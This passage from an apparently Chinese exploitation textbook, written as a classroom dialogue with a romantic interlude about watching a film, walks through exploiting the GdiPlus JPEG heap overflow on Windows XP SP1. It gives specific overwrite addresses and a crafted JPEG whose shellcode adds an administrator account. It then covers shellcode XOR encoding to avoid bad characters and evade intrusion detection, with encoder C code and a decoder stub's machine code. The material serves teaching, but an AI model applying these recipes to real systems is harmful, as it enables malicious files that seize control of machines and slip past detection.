 “那我们把 where 覆盖成默认异常处理地址，what 覆盖成 ShellCode 地址就可以了？”

“好啊！大家试试？”

“把 what 填为 ShellCode 的地址，where 填为系统默认异常处理地址，后面跟上 ShellCode 的代码。生成伪造图片后，我们在资源管理器中浏览试试。”

教室里一片安静……

“这是怎么回事呢？”古风疑惑的看着老师。

“呵呵，这是没有引发默认异常处理啊！”老师回答说。

“哦！那我们换个利用方式吧，” 古风说道，“把 where 覆盖成 SEH 处理地址，what 覆盖成 ShellCode 地址，再试试！”

“铛！”这下弹出了异常对话框。

“这次引发了默认异常处理，却没进入到 SEH 处理中。”老师说道。

“天啊！这这么办啊？”古风彻底迷糊了。

“呵呵！堆溢出漏洞的利用就是需要具体漏洞具体分析。对于这个漏洞，我们有特殊的利用方法。”

“什么特殊方法呢？”大家都急切的想知道。

“在异常处理后，系统会返回到 GdiPlus.dll 中继续执行，这是 GdiPlus.dll 特有的行为，不是每个堆溢出漏洞都会有的。”

“老师直接说结果吧！”古风按耐不住了。

“好的，覆盖方法是把 where 赋成 0x7830B1DC，而 what 赋成 EF 1F。”

老师继续解释道：“0x7830B1DC 是 XP SP1 的 GdiPlus.dll 中的一个函数地址，在异常处理后会被调用。所以当异常处理执行 what→where 时，就会将这个函数改写；异常处理后，会返回 GdiPlus.dll 中调用我们覆盖的函数。经过多次处理后，程序就会到达我们 what 这条指令了。”

```
021D6250 EB 1F JMP SHORT 021D6271
```

“哦！我们再在后面赋上 ShellCode 就可完成攻击了！”大家说道。

“不错，就是这样的！”

# 4.6.3 完美的利用

### 4.6.3 完美的利用

“好，思路都清楚了，我们来构造利用吧！”。

“好咧，首先是注释标志 0xFFFE，然后是伪造的注释段长度 0x0001，接着 14 直接填充数据后，就是我们的 what 和 where 了。”古风构造了起来。

宇强和玉波也接着说：“对，然后把 what 写成 0xEB 1F，where 写成 0x7830B1DC，后面跟我们的 ShellCode，如图 4－56。”

 “这里的 ShellCode 还是完成添加名为‘X’管理员用户的功能，”老师补充道，“我们再按照 JPEG 的格式加上一些 JPEG 图片的数据，完成后得到 xpsp1.JPEG。”

“那我们测试一下吧！”大家期望的说。

“好呢！我们在资源管理器中打开它，哇！资源管理器异常重启，但用户添加上去了。”

“呼！终于成功了！”

玉波感叹的说：“看来堆溢出的利用的确没有通吃的办法啊！”

“学知识不是吃东西啊！我们需要先掌握一般的原理，打好基础，然后具体问题具体分析，这样才能创造性的解决较困难的问题。”老师说道。

“嗯，我们一定牢记于心！”

“好，这么晚了，今天都到这里吧，大家辛苦了！”

“那里那里，老师才辛苦呢！”

4.7 《月光宝盒》

小倩一边收拾东西一边问宇强：“下课干什么呢？”

“我想去图书馆借两本缓冲区溢出编程的书！”宇强说。

“哦！我也有点想去，我们一起吧！”

“好啊！”宇强想到又可以和小倩一起走，真高兴！

“先吃点东西吧，好饿啊！”走出教室时宇强说道，“图书馆旁边家属区里的饺子挺不错的，我们去那里吃吧！也顺路。”

“好啊！”小倩满脸愉快悦。

图书馆在老校门旁边，正对对着文科楼，一条沿途长满高大柏树的大道把它们隔开。图书馆门外有着老校长吴玉章的塑像和“海纳百川，有容乃大”八个大字。

“图书馆里没有讲缓冲区溢出编程的书呀！”宇强查了查电脑，对小倩说道。

“应该还没有出版过这方面的书吧！”

“是啊！那我去借两本操作系统和 ACM 竞赛的书吧！《程序设计竞赛与艺术》？好 Cool 的名字啊！刘汝佳！哇！信息学竞赛的 NO.1！我去借这本书，你等我。”

过了一会，宇强满意的抱着一堆书从楼上走下来，对小倩说：“真不错啊！LRJ 现在都是国家队教练了，还在读大学也。这几本书是帮你借的。”

宇强递给了吴小倩一本《算法导论》和一本《Windows 核心编程》。

“哦！都是好书啊，谢谢你啊！”

“没事，不用谢！我们走吧！”

两人走到了图书馆门口，看见 “图书馆影院”贴着《月光宝盒》的海报。

“很老的片子啦！但很经典！”宇强停下来，指着海报上带着紧箍咒的孙悟空说道。

“是啊！周星星的经典之作啊！图书馆影院就在旁边吧？才 3 块钱，挺便宜的嘛！我们要不要重温一遍？”小倩转头望着身旁的宇强。

“好啊！这部电影的每句台词、每个眼神、每个细节，都绝对的经典。我每看一次，总会发现不同的东西。”

“那好啊！看看这次你有没有新的发现！”

“现在我郑重宣布，这座山上所有的东西都是我的，包括你。”紫霞的开场白是那样的气贯云霄，像一个童话故事（其实宇强心里想的是：其实这个世界没有什么属于你的，包括你自己。）！

也许我们就是为了创造属于自己的东西才来到这个世上，因为年轻，所以押注于爱情！

至尊宝拒绝了紫霞，他以为自己还爱晶晶。见到晶晶，他又发现紫霞才是真爱。命运一直在同他开玩笑：至尊宝忽然成了孙悟空，千辛万苦找晶晶又爱上了紫霞。而抉择是那样的残酷：要打败牛魔王救紫霞，就必须戴上紧箍咒做回神通广大的孙悟空；而戴上紧箍咒就不能有半点情欲，只有取经去。至尊宝挖开自己的心，看到了紫霞留在那里的一滴眼泪，毕竟曾经沧海过！五百年又五百年，兜了一个大圈又回到了原地。

“生亦何欢，死亦何苦。”大彻大悟。紧箍咒圈住昔日的梦想，圈住棱角分明的个性。成熟是一个很痛的词，它不一定会得到，却一定会失去。

“ 从前 现在 过去 便再不来，红红 落叶 长埋 尘土内……苦海……翻起爱恨…… ”当片尾曲响起时，宇强想到：“成熟，就代表会失去么……”。

从影院中出来，宇强和小倩走在回宿舍的路上，落叶铺满整个水泥石面，踩上去沙沙作响。难得的明月挂在天上，如同白银一般倾泻下来。宇强望了望身边的小倩，是一层迷幻的白光……“如同天使啊！” 宇强心里说不出的欢喜。

“这部电影是不是太悲情了点呢？”小倩问道。

“在电影院里有那种感觉，有种失落感！”

“现在呢？”

“现在？”宇强又恢复了精神，“我又想起损失，我们都要经受这个过程，但正因为有损失，我们才能在生活上得到成长；生命，的确很短暂，但正因为短暂，我们创造的美好东西在日后才能长期永存。”

“所以，我我现在想的就是：把握青春岁月，奋进不息，努力干一番事业！‘成事在天，谋事在人’！”

“哦，你能有这样的想法啊，很不错嘛！”小倩赞同的说道。

“当然，我可是一个很上进的人啊！哈哈！”

“快看……流星！”小倩突然指着夜空激动地说。

天边一道亮光滑过。

“快许愿，快许愿！”宇强催促道（许愿中……）

“呵呵！你许的什么愿望啊？”

“不说，说出来就不灵了！要默默的许！”小倩笑个不停。

不知不觉已到了小倩的寝室楼下。“书下次还给你啊！”小倩说。

“好的，不用急，你慢慢看，再见！”

宇强在回去的路上，不知不觉的想起了《月光宝盒》的主题歌。

　　一生所爱

　　从前 现在 过去 便再不来

　　红红 落叶 长埋 尘土内

　　开始 终结 总是 没变改

　　天边的你 飘过白云外 ……

　　苦海 翻起爱恨

　　在世间 难逃离命运

　　相亲 竟不可接近

　　或我 应该相信 是缘分……

# 课后解惑

## 课后解惑

Q：对于各个 Windows 版本，堆的处理过程都一样么？

A：堆管理和回收是个很大的主题。微软也一直在试验与改进，希望在效率和资源占用方面取得一个合理的折衷。所以堆管理器采用的分配算法，在不同的 Windows 版本上是不同的，但微软的改进毕竟是逐步的，所以讲的方法基本对各种版本研究都有效。

Q：堆溢出的利用有很大的实际意义么？

A：当然！堆溢出的危害还不像堆栈溢出那样被人认识得很清楚。无论是实际的利用，还是深入的研究方法，都很有意义。有本书讲解防止缓冲区溢出的方法时，居然建议不使用数组，使用动态分配这一项。

Q：为什么一再要求不要在 VC 里调试和运行堆溢出相关程序呢？

A：Windows 为堆管理提供了两套 API，一套用于正常管理分配，另一套用于调试。使用 VC 这类 ring3 调试器调试时，Windows 会创建调试堆，并使用调试那套函数，这样就和正常运行时的堆处理不同。所以一再要求在正常模式下运行相关程序。如果要对正常的堆分配进行跟踪，最好使用 ring0 调试器（如 SoftICE）。

Q：DEBUG 版本和 RELEASE 版本的还有些什么不同呢？

A：DEBUG 版和 RELEASE 版由于编译选项不同，所以编译器对它们的链接处理和生成的程序也不同。DEBUG 版多了很多东西，比如调试信息；RELEASE 版还会进行优化。所以调试版本会比发布版大很多。

Q：我写了一些程序，在 DEBUG 版时可以正常运行；但做成 RELEASE 版却报错，马上就要发布了，天啊！这是怎么回事啊？

A：不要轻易将问题归结为 DEBUG/RELEASE 问题，先确保有没有其他原因。如果是 DEBUG/RELEASE 的问题，最大的可能性是变量初始化的问题。在 DEBUG 下，编译器会自动把变量初始化；而 RELEASE 版则不会。 另外，预处理的不同、资源文件的改变，都有可能带来问题。

Q：堆溢出利用的 ShellCode 为什么会有这么多要求呢？怎么解决呢？

A：API 函数执行会使用到进程的堆块。我们把堆覆盖了，那么函数执行时就会发生异常。

可按如下方法解决：

我们可以使用系统中另外存在的一个堆替换掉 PEB 中系统默认的堆，比如：

```
mov eax,fs:[0x00000018] 〈---------PEB 地址
mov eax,[eax+0x30]
lea eax,[eax+0x18] 〈--------获得进程默认 HEAP BASE 地址??????
mov ebx,0x170000??
mov [eax],ebx 〈-----------换成 0X170000
```

我们也可恢复 HEAP FREE LIST 结构，由于被破坏的主要是释放堆连表的结构，我们可以取出链表进行分析，恢复成一个正常的释放堆链表。

具体实现我们将在 ShellCode 的高级编程中讲到。

Q：为什么覆盖 Call [esi+4c] 指令的地址就会引发异常，从而进入异常处理点？而为什么在 JPEG 漏洞中可以覆盖 0x7830B1DC 处的函数，又不会出错呢？

A：这涉及到 PE 文件的的分段了。 Call [esi+4c] 的指令是在 text 段，就是代码段中。text 段是不可写的，所以往它附近写入时就会出错，从而进入异常处理；而 JPEG 漏洞利用时，覆盖函数的地址是在 data 段中，而 data 段是可以写的，所以不会引发异常。

Q：还有哪些堆溢出利用的实际例子呢？

A：有很多哦，建议再看看 RPC 堆溢出漏洞的分析和利用，对增加堆的利用经验有很大帮助！

# 第五章 ShellCode 变形编码大法

# 第五章 ShellCode 变形编码大法

老师进入教室后说道：“时间过得真快呀，不知不觉已开课半期了，下面我们小结一下吧！”

“哦？要半期考试么？”大家紧张的说。

“呵呵！你们说呢？”

“哎哟，就别考了吧！我们这么认真的，没有必要吧？”同学们小心翼翼的说。

“那这样，征求一下大家的意见。大家举手表决，同意半期考试的请举手！”

台下你看我，我看你，都没人动。然后大家都噗哧的笑了起来。

“好，大家一致通过。不进行考试！”老师也笑了。

“太好了！”

宇强对旁边的小倩说：“有人举手才奇怪呢！”

“是啊！”，小倩笑得合不拢嘴！

“呵呵，可以不考试，但复习总结还是要做的。”老师说，“这半期来，我们主要学习过什么知识呢？”

玉波说道：“第一是 Windows 下堆栈溢出的利用。包括堆栈溢出原理、定位和利用的方法。”

“第二是 ShellCode 的编写，从易到难的讲了开 DOS 窗口、加用户、网络 Shell 等 ShellCode 的实际编写。”古风接过话题。

“第三就是 Windows 下堆溢出的利用。”宇强补充道。

小倩想了想说道：“还讲过一系列实际漏洞的利用编写！在实际中利用最有意思，也提高得最快！”

# 5.1 为什么要编码

## 5.1 为什么要编码

宇强问道：“我们现在有了编写 Exploit 的思路，也有了编写通用 ShellCode 的方法，也能写出一些成功的攻击程序。但对有些目标程序，按照漏洞公告的提示，编写出了攻击程序却没有效果，这是怎么回事呢？”

“是啊！”其他人也附和着。

“对，这是个很经典的问题。”老师说道，“我们首先来分析一下吧！”

# 5.1.1 Exploit 失败原因分析

### 5.1.1 Exploit 失败原因分析

“攻击失败会有很多原因，我们不考虑对方打了补丁，没有漏洞的情况；也不考虑网络通信问题（如防火墙阻断等）。只从编写 Exploit 的技术角度出发，分析攻击程序会失败的原因。”

“我们编写攻击程序时有三大步骤，有谁说说是哪三步呢？”老师问道。

“第一、覆盖点的定位；第二、ShellCode 的编写；第三、跳转到 ShellCode 中。”大家都烂熟于胸，一口便答了出来。

“很好！”老师满意的说，“我们就根据这三点来分析攻击程序的失败原因及造成原因吧！”

失败原因一、覆盖点偏差

“这有可能是漏洞公告上分析的版本和大家实际攻击的版本不同造成的；也有些软件由于安装目录不同，其漏洞的覆盖点位置也不同。还有，大家在写 Exploit 时，有可能自己数错了覆盖的字符个数，这也是初学者经常犯的错误。”

“嗯！有时候累了就是容易数错啊！”同学们说道。

“要解决这个问题只有仔细些。”老师说道，“认真看清楚公告的内容，数清楚覆盖字符的个数。”

失败原因二、错误的跳转地址

“有些公布出来的程序，为了避免滥用，给的只是针对某个系统的跳转地址，甚至有的程序连地址都没有，只有 0xAAAAAAAA 或 0xXXXXXXXX 这样的形式在覆盖点位置，这要我们自己去修改。”

“前面在讲堆溢出时也说过，有时地址是正确的，但所属的 dll 没有被加载，这样地址所在的地方根本没有指令，也就没有我们想要的 JMP ESP 或 CALL [esi+0x4c]啦！”

“也有这种情况，有时候昏头了，我们把 0x7FFA4512 在字符串里直接写成‘\x7F\xFA\x45\x12’。”老师笑道，“但这是错误的！应该是‘\x12\x45\xFA\x7F’，这一点大家要小心。”

小知识：为什么 0x7FFA4512 要写成“\x12\x45\xFA\x7F”

在 Intel 系列的计算机下，数据的排列规则是：高位数据在高地址，低位数据在低地址。7F 是最高位数据，所以要放在最高地址——就是“\x12\x45\xFA\x7F”的最后；而 12 是最低位数据，因此要放在最前面——最低地址。

失败原因三、ShellCode 被截断或改写

老师强调道，“这是最常见的问题，随时都可能遇到。”

“哦？ShellCode 被谁改写了呢？”玉波问道。

“被目标程序自己！”老师说，“任何目标程序都有一些特殊字符不能使用，比如 IIS 里面不能有 0x20，如有，就会把后面的数据截断；而 Cmail 的漏洞不能有大写字母，如有，会自动转为小写字母。这样，我们的 ShellCode 有可能被截断或替换，当然就完不成攻击功能了。”

判断 Exploit 失败原因的方法

“无论是覆盖地址错误，还是 ShellCode 被改变，表现出来的现象都是不能完成我们想要的功能。”老师说道，“在这种情况下，我们就需要知道究竟是覆盖地址错误了，还是 ShellCode 被改变了？”

“如何判断呢？”

“要确定是哪种原因，有一个比较菜鸟的办法：就是在 ShellCode 的最前面加上‘\xEB\xFE’，即 JMP –1 的机器码。这样构造一个死循环。”

“哦！我们在堆栈溢出利用时，将 JMP ESP 改为 JMP EBX 方式，用的也是\xEB\xFE 来寻找异常点的啊！”宇强说道。

“是啊！可不要小瞧了它，在调试中是很有用的。”老师说道，“我们运行写好的 Exploit 攻击程序，如果返回地址正确，就会跳入‘\xeb\xfe’这句死循环中，我们按 Ctrl＋D 调出 SoftIce，就会发现系统一直陷入这句指令不走了。然后对照跟在后面的 ShellCode，看其是否和我们编写的一样，这样比较容易发现问题。”

“如果发现没有陷入‘\xeb\xfe’这句死循环，可以肯定覆盖的地址是错的，需要重新定位覆盖点，或换成通用的覆盖地址。”

“而进入了‘\xeb\xfe’死循环，那么我们的苦力活就来了，要一个字节一个字节地同原 ShellCode 核对，直到发现是哪个字节被改变了。”

“哦，这个工作我喜欢！”古风乐呵呵地说，“就是核对内存数据嘛！像‘大家来找茬’游戏一样，我可是高手哦！”

“好啊，以后像什么劈柴之类的苦力活就交给你啦！”玉波狡黠地说，“我可不擅长这类工作。”

“好了，我举个亲身例子吧，”老师说道，“我最早在测试 Foxmail 漏洞时，就是用该方法来发现别人程序的返回地址在自己机器上是无效的，溢出后进入不了‘\xeb\xfe’这句死循环，之后我就换了一个返回地址，终于可以进入‘\xeb\xfe’了，但还是完成不了功能。然后我就对照 ShellCode，发现原来是 ShellCode 中的‘/’被替换了。知道问题就好办了，换了一个符合要求的就 OK 了。”

“在调试 RtlAllocate 堆溢出漏洞时，我也是这样发现 user32.dll 根本没有加载，因此就没有 call [esi+0x4c]的指令了。所以我提醒大家要先 LoadLibrary("user32.dll")加载 user32.dll，这样才能利用成功。”

大家听得津津有味。

“有时经验是可遇不可求的，所以这里花点时间讲，希望对大家有用。”

“嗯，对我们很有帮助啦！收下了！”同学们说道。

“哈哈，好的！当 Exploit 失败，是因为 ShellCode 里不能有某些字符时我们就需要对 ShellCode 进行编码变换。”

# 5.1.2 ShellCode 编码的用处

### 5.1.2 ShellCode 编码的用处

避免截断

“我们对 ShellCode 编码的第一个用处是避免 ShellCode 里出现‘\x00’，从而被截断。”老师说道。

“这里再说一次，字符串是以 ASCII 码‘\x00’为结束标志的。当我们定义字符串时，编译器会自动在末尾添加一个‘\x00’。比如 char name[] = 'ww0830' ，其实就是 char name[] = 'ww0830\x00' 。”

“而那些 Strcpy、Strlen 等字符串操作函数，是把‘\x00’作为字符串的结束标志。”老师说道：“如果我们的 ShellCode 中有‘\x00’，那很显然，目标程序用 strcpy 进行数据拷贝时，就会在 ShellCode 中的第一个‘\x00’处结束。这样，我们的 ShellCode 就不完整，实现不了我们想要的功能。”

“注意， char name[] = 'ww0830' 里面的‘0’和 ASCII 码‘\x00’是不一样的。 ‘ww0830’ 里的‘0’对应的 ASCII 码是‘\X60’，不会被截断。这是初学者常见的问题。”

“哦！原来是这样啊！以前一直有点迷糊！”台下有人说道。

“所以，如果 ShellCode 中有‘\x00’，那我们肯定需要把它去掉，方法是对 ShellCode 进行编码。但编码不仅仅是这个作用，还有其他功能。”

符合目标程序的要求

“我们对 ShellCode 编码的第二个用处就是使其符合目标程序对字符的规范。”老师说道。

“比如，攻击 Foxmail 的 ShellCode 里不能有斜线，即‘/’，攻击 IIS 的 ShellCode 里面不能有空格，即‘\x20’。所以对不同的目标程序，对 ShellCode 的要求也不同。我们也需要通过编码来避免。”

“如果说编码避免‘\x00’是 ShellCode 的共性，那么避免目标程序的特殊字符要求就是个性了。”

“共性，个性，那还有特性吗？”小倩问道。

“当然有啊，我们还可通过给 ShellCode 编码，使其突破 IDS！”

突破 IDS

“我们对 ShellCode 编码的第三个用处，就是使其突破 IDS 的探测！”老师说。

小知识：IDS 简介

IDS（intrusion detection system）入侵检测系统是种新兴的、但仍在继续发展中的技术。或者监测主机日志、进程、会话、以及系统文件的更变，或者监测主机/网络的通信信息，以发现正在发生的入侵行为。其工作流程大致分为以下几个步骤：信息收集、信号分析、模式匹配、统计分析、实时记录、报警或有限度反击。IDS 的根本任务是对入侵行为作出适当的反应，这些反应包括详细日志记录、实时报警和防火墙联动，甚至作有限度的反击等。

“所以，我们对 ShellCode 编码，可以在一定程度上躲开 IDS 的探测，达到攻击的效果。”

# 5.2 简单的编码——异或大法

## 5.2 简单的编码——异或大法

“好了，说了怎么多，我们还是来看看编码的具体实现吧！”老师说，“有多种方法可以对 ShellCode 进行编码。我们一个个的来探究吧！”

“我会通过很简单的讲解和实例来说明思路和方法！首先看最简单、常用的方法——xor 大法。”

# 5.2.1 原理——异或不变

### 5.2.1 原理——异或不变

“xor 是指异或，异或的运算规则是相同为 0，不同为 1。因为在二进制条件下，每位的取值只有 0 或 1 两种，运算的结果如表 1。”



“这里只是 0 或 1，如果是比较大的数呢？”古风不解的问道。

“你的意思是像 10 xor 7 这样，不仅是二进制条件下的运算吧？”老师说道，“xor 就会先把 10 和 7 转化成二进制形式，然后按照上面的规则对每一位进行运算。”

“比如 10 xor 7，就会先转化成二进制数，10＝(1010)B；7＝(0111)B；然后每一位对应异或。”

“从低位到高位，运算依次就是 0 xor 1=1；1 xor 1=0；0 xor 1=1；1 xor 0=1。如图 5－1。”



“所以，10 xor 7＝(1010)B xor (0111)B＝(1101)B＝13。”老师写出了答案。

“哦，原来是这样运算啊！怎么用于编码呢？”

“根据运算规则，对于某个值 X，我们选择任意密钥 Key，都有如下等式成立。”

X xor Key=Z Z xor Key=X ====> X xor Key xor Key=X

“即，一个值对同一个数异或两次后，得到的结果为原值。”老师解释道。

“抽象啊……”

“举个例子吧！比如 10 xor 7 xor 7 。刚才我们已经推出 10 xor 7＝13；如果再次异或，就是 13 xor 7，又恢复了原来的值 10。计算过程如图 5－2。”



“哦，是这样啊！是不是我们选一个 key，对 ShellCode 进行两次 xor 运算，然后对它进行编解码呢？”同学们问道。

“嗯，就是这样的。”老师回答道，“确切的说，我们选一个 key，编码是将 ShellCode 和这个 key 作一次 xor 运算，得到 enShellCode；解码……大家想想？”

“那解码就是 enShellCode 和 key 再作一次 xor 运算，又重新得到 ShellCode。”小倩高兴的说。

“非常正确，我们来看看如何实现吧！”

# 5.2.2 编码——异或 97

### 5.2.2 编码——异或 97

“有了思路，算法和实现就很简单了。我们把 ShellCode 数组里的每一个字符 ShellCode[i]与某一密钥 Key 作异或，就得到了编码后的 enShellCode，保存在 enShellCode 数组中。”

“在 C 语言中，异或操作符是‘^’，这里我们选 Key 为 0x97。如果 ShellCode 里面有‘0x00’，和 0x97 异或后，就会变为 0x97，编码后的 enShellCode 就不会被截断了。”

“那如果 ShellCode 中有 0x97 呢？岂不是和 Key 异或反而变为 0，被截断了？”宇强想得很远。

“这个完全有可能！那时我们就只能把 Key 改成其他值试试了。”老师说道，“思路都是一样的，我们看看编码代码吧！”

```
#include <string.h>
#include <stdio.h>
#define KEY 0x97
unsigned char ShellCode[] = "\x41\x00\x42\x43"; //含有\x00 的 ShellCode
int main()
{
    int i;
    int nLen;
    unsigned char enShellCode[500]; //编码后的 enShellCode
    nLen = sizeof(ShellCode)-1; //获得 ShellCode 的长度
    for(i=0; i<nLen; i++)
    {
        enShellCode[i] = ShellCode[i] ^ KEY; //对每一位 ShellCode 作 xor key 编码
        printf("\\x%x-",ShellCode[i]); 
        printf("\\x%x ",enShellCode[i]); //打印出效果
    }
    return 0;
}
```

“这里我们测试用的 ShellCode 中含有 0x00，但编码后得到的 enShellCode 就不会有了。我们运行，其效果如图 5－3。”



“0x41 变为 d6，0x00 变为 97！果然达到效果了！”同学们说道。

“明白了编码，大家就来看看解码吧!”

# 5.2.3 解码——decode 程序

### 5.2.3 解码——decode 程序

“编码之后我们得到了 enShellCode；还需要一段解码程序 decode，让编码后的 enShellCode 还原成原来的 ShellCode，然后跳过去执行。有了 decode 和 enShellCode，我们把 decode 放在前面，enShellCode 跟在后面。如图 5－4。”



　“当然，decode 和 enShellCode 里面不能有非法字符，否则变换就失去了意义。”老师说道，“根据上面的分析，我们只需将 enShellCode 里面的字符再异或编码用的 Key 就可以了，这里还是 0x97。”

“decode 实现的汇编代码如下：”

```
jmp decode_end //为了获得 enShellCode 的地址
decode_start:
pop edx // 得到 enShellCode 的开始位置 esp -> edx
dec edx
xor ecx,ecx
mov cx,0x200 //要解码的 enShellCode 长度，0x200 应该足够 
decode_loop:
xor byte ptr [edx+ecx], 0x97 //因为编码时用的 Key 是 0x97，所以解码要一样
loop decode_loop //循环解码
jmp decode_ok //解码完毕后，跳到解码后的地方执行！
decode_end:
call decode_start
decode_ok: //后面接编码后的 enShellCode
```

“得到 decode 的机器码后，我们把 enShellCode 跟在后面就可以了。”老师指着程序说。

“理解起来还是有点困难啊！”同学们面带难色。

“嗯，我们一起来过一遍吧！”

“首先，以下代码段的作用是定位 enShellCode 的位置。”

```
jmp decode_end
decode_start:
pop edx
……
……
decode_end:
call decode_start
```

“如何定位的呢？”大家有点奇怪。

“Call 的功能大家还记得吧？ call decode_start 会完成两个功能： push EIP，JMP decode_start ，即先保存下一句指令的地址，然后跳到 decode_start 处执行。”

“而 call decode_start 后面紧跟 enShellCode，所以 push EIP 就会把紧跟后面的 enShellCode 的地址保存在堆栈中，然后跳到 decode_start 处执行。”

大家点点头。

“而在 decode_start 处，马上 pop edx ，就会把保存的 EIP（其实就是 enShellCode 的地址）赋给 edx，这样 edx 就是 enShellCode 的地址了。示意图如图 5－5。”

 “哦！原来这样获得 enShellCode 的地址啊！”大家恍然大悟。

“这是种动态定位地址方法，很多地方都有使用。”老师说道，“我们继续往下看。”

```
decode_loop:
xor byte ptr [edx+ecx], 0x97 //因为编码时用的 Key 是 0x97，所以解码要一样
loop decode_loop //循环解码
```

“ xor byte ptr [edx+ecx], 0x97 就是对 enShellCode 解码——异或 0x97；而 loop decode_loop 是一个循环，功能是 ecx 减一，如果 ecx 不为 0，就跳到 decode_loop 继续执行。这样，我们就可解码 ecx 这么多个字节，这里 ecx 赋成的是 0x200（500 多个字节），一般的 ShellCode 都应该够了。”

“看来解码的关键就是这里啊！”

“是的，最后 jmp decode_ok 是跳转到复原的 ShellCode 中执行，这样就完成了 decode 的功能。”

“哦，明白了！”

“好了，大家清楚了流程和思路，我们就提取出 decode 的机器码吧！”

“这种活就不要和我争了，我来！”古风争先恐后的说，“在 VC 里面加上‘__asm’关键字，然后按 F10 进入调试状态，选择‘disassemble’和‘Code Bytes’，就会出现汇编对应的机器码，如图 5－6。我们把它们抄下来就可以了。”



“最后得到 decode 的代码为如下：”古风抄完后得意的说道。

```
decode[] = 
    “\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x00\x02”
    “\x80\x34\x0A\x97\xE2\xFA\xEB\x05\xE8\xEB\xFF\xFF\xFF”
```

